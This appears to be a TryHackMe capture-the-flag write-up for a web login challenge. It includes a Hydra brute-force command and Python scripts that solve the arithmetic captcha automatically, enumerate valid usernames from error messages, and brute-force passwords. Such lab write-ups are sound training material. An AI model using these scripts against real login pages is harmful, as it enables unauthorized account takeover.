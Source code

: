 ```yaml
---
title: "Capture! [WEB]"
categories: TryHackMe
permalink: /ctfs/tryhackme/capture
---
```

Broken authentication vulnerability.

## 📁 Challenge Description

>Can you bypass the login form?

**usernames.txt**

```
rachel
rodney
corrine
erik
chuck
[877 lines...] 
ronny
colin
ivy
madge
orville
```

**passwords.txt**

```
football
kimberly
mookie
daniel
love21
[1557 lines...]
douglas
qwerty
gabby
thankyou
arturo
```

## 🚩 Solution

The first method comes in my mind with the `usernames.txt` and `passwords.txt` given is to brute-force the login page by using HYDRA.

```
hydra -L usernames.txt -P passwords.txt 10.10.85.242 http-post-form "/login:username=^USER^&password=^PASS^:F=Error" -V -t 20 -I
```

However, it has 1375826 combinations to go through. Moreover, the website involve a captcha reader to prevent multiple login attempts. Therefore, I consider to look at other entry points within the website.

From my observation, the website does give us a vulnerable behavior which is the **Error message** it returns.

![image](https://github.com/pikaroot/pikaroot.github.io/assets/107750005/8d63bb32-06e8-4511-9f31-c766286a98fc)

Based on the image above, when a user enters a set of credentials, it will return an error message `"The user 'username' does not exist."`.

In other words, the website is checking the validity of the `username` instead of checking the `username` and `password`. Thus, the approach of this challenge is to enumerate out the existing username on the website, and then enumerate the password correspond to the username we had enumerated previously. By looking at the challenge hint, we know that we are on the right path.

![image](https://user-images.githubusercontent.com/107750005/237060722-d860b67f-63e0-4f33-90dc-78a0b5a3e272.png)

First, we need to bypass the captcha checker before enumerating the username as the error message indicates the validity of captcha even the username is invalid.

![image](https://github.com/pikaroot/pikaroot.github.io/assets/107750005/8334dac8-6900-4019-bb92-2f212c11b374)

To do this, we can create a `get_captcha()` function to manage the captcha part.

```python
#!/usr/bin/env python3
import requests
import re

url = 'http://10.10.85.242/login'

u = open('usernames.txt', 'r').readlines()
p = open('passwords.txt', 'r').readlines()

usernames = ''.join(u).split('\n')
passwords = ''.join(p).split('\n')

def get_captcha(data):

	res = requests.post(url, data=data)

	for item in re.findall('[0-9].*=', str(res.text), re.I+re.M):
		found = '{}'.format(item).split(" ")

	if found[1] == '+':
		return int(found[0]) + int(found[2])
	elif found[1] == '-':
		return int(found[0]) - int(found[2])
	elif found[1] == '*':
		return int(found[0]) * int(found[2])
```

We can observe that every math question generated from the website are `addition`, `subtraction`, and `multiplication` between two numbers. This can be concluded by clicking the "Login" button multiple times.

```python
def enumerate_username():

	testdata = {
		"username": "fakeuser",
		"password": "fakepass",
	}

	testres = requests.post(url, data=testdata)
	captcha = get_captcha(testdata)
	
	for username in usernames:
		data = {
			"username": username,
			"password": "fakepass",
			"captcha": captcha
		}

		res = requests.post(url, data=data)
		captcha = get_captcha(data) # refresh the captcha

		if re.findall('does not exist', str(res.text), re.I+re.M):
			print(f"[-] {username} does not exist.")
		else:
			print(f"[+] {username} found.") 
			break

enumerate_username()
```

As the captcha checker only appear in the `HTTP POST response`, therefore, a `fakeuser` and `fakepass` is created for retrieving the captcha question. After that, loop through all the usernames in the `usernames.txt` and refresh the captcha.

![image](https://github.com/pikaroot/pikaroot.github.io/assets/107750005/9a2d1aa4-b030-4960-b005-36ed934d4a04)

Once the username is found, the process of password enumeration is similar with `enumerate_username()`. The only modification is to replace `fakeuser` to the username found `natalie`, and the error message to `"Invalid password"`.

```python
def enumerate_password():

	testdata = {
		"username": "natalie", # enumerated
		"password": "fakepass",
	}

	testres = requests.post(url, data=testdata)
	captcha = get_captcha(testdata)
	
	for password in passwords:
		data = {
			"username": "natalie",
			"password": password,
			"captcha": captcha
		}

		try:
			res = requests.post(url, data=data)
			captcha = get_captcha(data)

			if re.findall('Invalid password', str(res.text), re.I+re.M):
				print(f"[-] Not this password '{password}'.")

		except Exception as e:
			print(f"[+] Password '{password}' found.")
			break

enumerate_password()
```

>NOTE: Once the password is found, the website is no longer generate a new captcha question as it will redirect to another site (e.g., dashboard, etc.). The `get_captcha()` function will not detect any captcha question and results an UnboundLocalError. Therefore, it can be solved with the use of `try` and `except`.

Login with the credentials we had found to get the `Flag.txt`.

![image](https://user-images.githubusercontent.com/107750005/237055454-23b2f834-ba3d-466d-8c03-ef2779fad738.png)

***FLAG***: `7df2eabce3xxxxxxxxxxxxxxxxxxxxxxx`
